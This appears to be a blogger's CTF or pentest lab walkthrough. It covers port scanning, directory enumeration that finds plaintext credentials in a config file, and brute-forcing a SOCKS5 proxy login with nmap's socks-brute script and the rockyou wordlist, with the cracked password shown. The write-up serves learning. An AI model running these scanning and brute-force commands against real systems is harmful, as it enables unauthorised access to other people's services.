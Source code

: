 ```yaml
---
title: Base CTF Recipe
author: erika
date: 2024-02-14 20:55:00 +0800
categories: [tech]
tags: [tech, ctf, red team, pentesting]
pin: false

image:
  path: /assets/img/gallery-ink-executioner.jpg
  lqip: data:image/webp;base64,UklGRpoAAABXRUJQVlA4WAoAAAAQAAAADwAABwAAQUxQSDIAAAARL0AmbZurmr57yyIiqE8oiG0bejIYEQTgqiDA9vqnsUSI6H+oAERp2HZ65qP/VIAWAFZQOCBCAAAA8AEAnQEqEAAIAAVAfCWkAALp8sF8rgRgAP7o9FDvMCkMde9PK7euH5M1m6VWoDXf2FkP3BqV0ZYbO6NA/VFIAAAA
  alt: duffle bag for pentest

---
```


duffle bag for pen test

## Raw Notes

![Desktop View](/assets/img/tutorials/){: width="500" height="589" }
_Raw Notes 1_



## Recon

nmap scan reveals two open ports


| Port                                                                                       | Status | Info       |
|----------------------------------------------------------------------------------------------------|-----------|:--------------|
| 80 | open | http (web application)|
| 1080   | open | socks (socks5 proxy requiring authentication) |

- nikto -h [ip address]

reveals more about the web application such as the version

- dirbuster [web application]
 need to use the seclist /big.txt 
 
 --> webapp.local/adminpanel
 --> webapp.local/config.txt
 
 this config.txt reveals username: prime
                        password: temppassword
 
 
- curl -x socks5://Prime:temppassword@[ipaddress]:1080/ http://[webapp.local]
- echo "Prime" > "user.txt"

## nmap

Attempt nmap-scripts bruteforce when this curl temporary password doesn't work

- nmap --script socks-brute --sript-args userdb=./user.txt, passdb=/usr/share/seclists/Passwords/LeakedDictionaries/rockyou.txt -p 1080 [ipaddress] -v


--> port         State     Service
    1080/tcp     open      Socks

| socks-brute 
        accounts:
                Prime:tinkerbell1
                
## curl again
- curl -x socks5://Prime:tinkerbell1@[ipaddress]:1080/ http://[webapp.local]


